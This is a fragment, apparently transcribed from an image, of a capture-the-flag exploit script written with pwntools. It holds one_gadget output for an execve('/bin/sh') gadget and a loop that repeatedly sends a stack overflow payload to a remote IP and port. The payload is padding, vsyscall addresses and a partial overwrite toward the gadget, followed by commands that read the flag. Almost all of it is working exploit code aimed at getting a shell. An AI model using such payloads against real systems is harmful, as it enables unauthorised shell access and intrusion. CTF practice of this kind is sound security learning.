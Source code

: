 ```

0xf1207 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
root@18491090a044:~/work#

20840
'''

# one_gadget = 0x45226
#  0x7ffff7a0d000--
one_gadget = 0xa9b226

while True:
    try:
        payload = b'a' * (0x20) + p64(0xdeadbeef)
        payload += p64(0xffffffffff600000) * 8
        payload += p64(one_gadget)[:3]
        p.sendafter("input something:\n", payload)
        p.sendline("cat flag")
        p.sendline("cat /flag")
        res = p.recv()
        print(res)
        if b"flag" not in res:
            raise EOFError
        break
    except KeyboardInterrupt:
        exit()
    except:
        p.close()
        p = remote('8.131.246.36', 38989)
```
